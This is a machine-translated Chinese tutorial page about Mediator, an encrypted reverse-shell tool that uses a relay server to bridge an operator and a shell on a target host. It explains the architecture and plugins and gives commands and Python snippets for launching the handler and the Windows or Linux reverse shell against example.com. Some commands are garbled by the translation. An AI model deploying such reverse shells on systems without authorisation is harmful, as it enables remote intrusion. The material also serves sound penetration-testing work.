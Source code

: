 # Mediator:一个可扩展的、端到端的加密反向外壳，采用了一种新颖的架构方法

> 原文：<https://kalilinuxtutorials.com/mediator/>

[![Mediator : An Extensible, End-To-End Encrypted Reverse Shell With A Novel Approach To Its Architecture](img//9c5b48193f575b326a7e588c7f8c5fea.png "Mediator : An Extensible, End-To-End Encrypted Reverse Shell With A Novel Approach To Its Architecture")](https://1.bp.blogspot.com/-cj1aU4K0Aq0/YK8xjlO7m1I/AAAAAAAAJPg/sf3edEkpuSIsua2jLIN1fq64Yh7x63AEwCLcBGAsYHQ/s728/mediator%2B%25281%2529.png)

Mediator 是一个端到端的加密反向 shell，其中操作者和 shell 连接到一个“mediator”服务器，该服务器桥接这些连接。这消除了运营商/处理者为了监听连接而设置端口转发的需要。Mediator 还允许您创建插件来扩展反向外壳的功能。

您可以将 Mediator 的脚本作为独立的可执行文件运行，也可以将其导入到其他 pentesting 和事件响应工具中。

**架构**

受端到端加密聊天应用程序的启发，Mediator 采用了一种独特的方法来实现反向外壳的客户端/服务器模型。中介使用:

1.  客户端反向外壳
2.  客户处理员/操作员
3.  连接两个连接的服务器

反向 shells 和处理程序使用连接密钥连接到中介服务器。服务器在端口 80 监听处理程序连接，在端口 443 监听反向 shell 连接。当客户端连接到中介时，服务器根据客户端各自的类型和连接密钥对客户端进行排队。当反向 shell 和操作符都使用相同的密钥连接到服务器时，服务器将桥接这两个连接。在那里，两个客户机之间进行密钥交换，反向 shell 和 operator 之间的所有通信都是端到端加密的。这确保了服务器不能窥探它正在传输的流。

**插件**

插件允许您添加额外的命令，这些命令可以在运营商的主机、目标主机或两者上执行代码！有关插件的更多信息，请参考插件目录中的自述文件。

**指令**

**服务器**

客户端脚本可以在 Windows 或 Linux 上运行，但是您需要在 Linux 主机上安装服务器( [mediator.py](https://github.com/doctormay6/mediator/blob/main/mediator.py) )。服务器是纯 Python，所以不需要安装依赖项。您可以使用以下命令运行服务器脚本

**$ python3 mediator.py**

或者您可以用提供的 [Dockerfile](https://github.com/doctormay6/mediator/blob/main/Dockerfile) 构建 Docker 映像，并在容器中运行它(确保发布端口 80 和 443)。

**客户端**

您需要安装在 [requirements.txt](https://github.com/doctormay6/mediator/blob/main/requirements.txt) 中找到的依赖项，客户端才能工作。您可以使用以下命令来完成此操作:

**$ pip 3 install-r requirements . txt**

请参见底部的*提示和提醒*,获得关于分发客户端的帮助，而无需担心依赖性。

处理程序和反向 shell 可以在其他 Python 脚本中使用，也可以直接通过命令行使用。在这两种情况下，客户端都可以接受服务器地址和连接密钥的参数。这些参数的用法如下所述。

**中介服务器地址**

对于 *Python 脚本*的用法，在实例化时需要中介主机的地址:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com ")
operator . run()**

*windows shell 类*

**从 windowsTarget 导入 windows rshell
shell = windows rsshell(mediator host = " example . com ")
shell . run()**

如果直接从 shell 执行客户端脚本*，您可以将地址硬编码在脚本的底部，或者可以将服务器地址指定为带有**或`--server`标志**的参数:*

*handle . py*

**$ python 3 handler . py-s example.com**

*windowsTarget.py*

**【example.com】python windows target . py-s**

**连接密钥**

当两个处理程序或两个反向 shells 使用相同的连接键连接到中介服务器时，只有第一个连接排队等待匹配。在排队的连接超时(30 秒)或与对应的连接匹配之前，尝试使用相同连接密钥进行连接的所有其他相同类型的客户端都将被丢弃。

重要的是要确保每个处理程序都使用唯一的连接密钥，以避免竞争情况导致错误的 shell 被提供给操作符。

仅前缀为“#”的键！ConnectionKey_ "将被服务器接受。默认的连接密钥是“#！ConnectionKey_CHANGE_ME！！!"。

要更改用于 *Python 脚本*用途的连接密钥，可以选择在实例化时提供连接密钥:

*处理程序类*

**从处理程序导入处理程序
operator = Handler(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
operator . run()**

*Linux shell 类*

**从 linuxTarget 导入 Linux rshell
shell = Linux rshell(mediator host = " example . com "，connectionKey="#！connection key _ secret _ key ")
shell . run()**

如果直接从 shell 中执行客户端脚本*，您可以在脚本底部硬编码连接密钥，也可以使用`-c`或`--connection-key`标志将连接密钥指定为参数:*

*handle . py*

**$ python 3 handler . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

*windowsTarget.py*

**>python windows target . py-s example.com-c ' #！连接密钥 _ 秘密密钥'**

[**Download**](https://github.com/doctormay6/mediator)
